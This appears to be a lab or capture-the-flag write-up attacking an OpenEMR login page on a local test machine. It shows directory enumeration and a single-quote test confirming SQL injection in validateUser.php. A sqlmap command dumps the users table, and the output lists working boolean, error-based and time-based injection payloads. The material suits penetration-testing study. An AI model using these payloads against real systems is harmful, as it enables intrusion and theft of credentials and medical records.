 ```
/favicon (Status: 200)
/robots (Status: 200)
/fonts (Status: 301)
/gitweb (Status: 301)
/phpMyAdmin (Status: 403)
/server-status (Status: 403)
/server-info (Status: 403)
/openemr (Status: 301)
```
# Openemr
![openemr](/assets/img/healthcare/openemr.png)
As we can see above, when we opened the `openemr` directory on the browser, it redirected us to a login page where we have to enter the username and password. Since we don’t know any usernames or passwords yet, I tried some default username and password combinations on that login screen, but that didn’t work.

# Sql Injection
I started analyzing the website for vulnerabilities. I intercept the request in burp and found that it can be vulnerable to SQL injection (SQLi). This was done by adding a single quote(') in `/openemr/interface/login/validateUser.php?u='`. The website responded with an SQL error message, indicating that it might be vulnerable. 
 
![sqli](/assets/img/healthcare/sqli.png)

I use sqlmap to enumeration more. 
```
sqlmap -u http://192.168.1.9/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump
       __H__
 ___ ___[,]_____ ___ ___  {1.4.8#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:12:34 /2020-09-06/

[22:12:35] [INFO] resuming back-end DBMS 'mysql' 
[22:12:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('OpenEMR=63a369aae71...8c445a0dd6'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: u (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: u=admin' AND 4430=4430 AND 'Qdai'='Qdai

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: u=admin' AND (SELECT 1685 FROM(SELECT COUNT(*),CONCAT(0x71767a7071,(SELECT (ELT(1685=1685,1))),0x716b707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'mswE'='mswE

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: u=admin' AND (SELECT 7341 FROM (SELECT(SLEEP(5)))fEST) AND 'FSmY'='FSmY
```